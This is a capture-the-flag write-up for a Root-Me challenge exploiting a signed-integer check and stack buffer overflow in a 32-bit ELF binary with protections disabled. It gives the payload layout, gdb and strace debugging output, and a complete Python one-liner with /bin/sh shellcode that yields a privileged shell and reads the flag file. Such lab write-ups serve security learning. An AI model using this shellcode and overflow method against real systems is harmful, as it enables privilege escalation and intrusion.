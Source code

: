 # ELF x86 - Stack buffer and integer overflow
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-and-integer-overflow
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch11@challenge02.root-me.org    
Username	app-systeme-ch11
Password	app-systeme-ch11
```
After looking a bit at the source code (and the title name), one can see a vulnerability in the following code:

```c
int size;  

if(read(fd, &size, sizeof(int)) != sizeof(int))
{
  printf("[-] File too short.\n");
  exit(0);
}
if(size >= BUFFER)
{
  printf("[-] Path too long.\n");
  exit(0);
}
```
The vulnerability is the signing of the variable _size_. Because it's a signed int variable, 0xffffffff equals to -1.<br>
Therefore, if an attacker (us) specifies a file with 0xffffffff as the first 4 bytes, he'll be able to read and write 0xffffffff bytes (which is more than enough to overflow the 128 bytes buffer).<br><br>

So let's craft a file that will look like the following:
```
   +------------+---------+-----------+-------------------+--------------------------+
   | 0xffffffff | "/" (*) | SHELLCODE | JUNK for overflow | address of the shellcode |
   +------------+---------+-----------+-------------------+--------------------------+
   
   (*) For passing the if at line 35.
```
With a bit of guessing, one can find out the the offset to the **eip** in stack is 140 bytes after the "/" character.
So our exploit should look like the following:
```
   +------------+---------+--------------------+--------------------------------+--------------------------+
   | 0xffffffff | "/" (*) | 28 bytes SHELLCODE | 112 bytes of JUNK for overflow | address of the shellcode |
   +------------+---------+--------------------+--------------------------------+--------------------------+
   
   (*) For passing the if at line 35.
```
Now let's find out the address to the shellcode. According to gdb:
```gdb
(gdb) break *0x08048612
Breakpoint 1 at 0x8048612: file binary11.c, line 33.
(gdb) run /tmp/badfile
Starting program: /challenge/app-systeme/ch11/ch11 /tmp/badfile

Breakpoint 1, 0x08048612 in read_file (fd=3) at binary11.c:33
33	binary11.c: No such file or directory.
(gdb) info reg
eax            0xbffffabf	-1073743169
ecx            0xbffffab8	-1073743176
edx            0x4	4
ebx            0x80	128
esp            0xbffffaa0	0xbffffaa0
ebp            0xbffffb48	0xbffffb48
esi            0x0	0
edi            0xbffffb40	-1073743040
eip            0x8048612	0x8048612 <read_file+221>
eflags         0x282	[ SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
The first byte '/' is read into 0xbffffabf. So the shellcode is probably at 0xbffffac0 right? Well, apparently not:
```sh
app-systeme-ch11@challenge02:~$ python -c "print '\xff\xff\xff\xff' + '/' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A'*117 + '\xc0\xfa\xff\xbf' " > /tmp/badfile
app-systeme-ch11@challenge02:~$ ./ch11 /tmp/badfile
[+] The pathname is : /1�Ph//shh/bin��PS���
                                           AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����

Segmentation fault
app-systeme-ch11@challenge02:~$ strace ./ch11 /tmp/badfile
[...snip...]
open("/tmp/badfile", O_RDONLY)          = 3
read(3, "\377\377\377\377", 4)          = 4
read(3, "/", 1)                         = 1
read(3, "1", 1)                         = 1
[...snip...]
write(1, "[+] The pathname is : /1\300Ph//shh"..., 168[+] The pathname is : /1�Ph//shh/bin��PS���
                                                                                                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
) = 168
write(1, "\n", 1
)                       = 1
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xfadf08ad} ---
+++ killed by SIGSEGV +++
Segmentation fault
```
It happens because the addresses are different between inside and outside of gdb (someone told me it's because the additional environment variables gdb sets).<br>
So to come around it, and find the actual address of the shellcode outside gdb, one can use the _-e_ switch of the **strace** tool.<br>
The _-e_ switch enables one to set an expression which will affect the tool's output. For example, for seeing the second argument of **read** as an address instead of the string.<br>
So to find out the shellcode's address, one can use "-e raw=read" and see the following output:
```sh
app-systeme-ch11@challenge02:~$ strace -e raw=read ./ch11 /tmp/badfile
[...snip...]
open("/tmp/badfile", O_RDONLY)          = 3
read(0x3, 0xbffffad8, 0x4)              = 0x4
read(0x3, 0xbffffadf, 0x1)              = 0x1
read(0x3, 0xbffffae0, 0x1)              = 0x1
[...snip...]
write(1, "[+] The pathname is : /1\300Ph//shh"..., 168[+] The pathname is : /1�Ph//shh/bin��PS���
                                                                                                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
) = 168
write(1, "\n", 1
)                       = 1
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xfadf08ad} ---
+++ killed by SIGSEGV +++
Segmentation fault
```
It looks like the address of the shellcode is 0xbffffae0 and not 0xbffffac0.<br> 
Once changing it, one can get the following output:
```sh
app-systeme-ch11@challenge02:~$ python -c "print '\xff\xff\xff\xff' + '/' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A'*117 + '\xe0\xfa\xff\xbf' " > /tmp/badfile
app-systeme-ch11@challenge02:~$ ./ch11 /tmp/badfile
[+] The pathname is : /1�Ph//shh/bin��PS���
                                           AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����

$ id
uid=1111(app-systeme-ch11) gid=1111(app-systeme-ch11) euid=1211(app-systeme-ch11-cracked) groups=1211(app-systeme-ch11-cracked),100(users),1111(app-systeme-ch11)
$ cat .passwd
<censored>
```

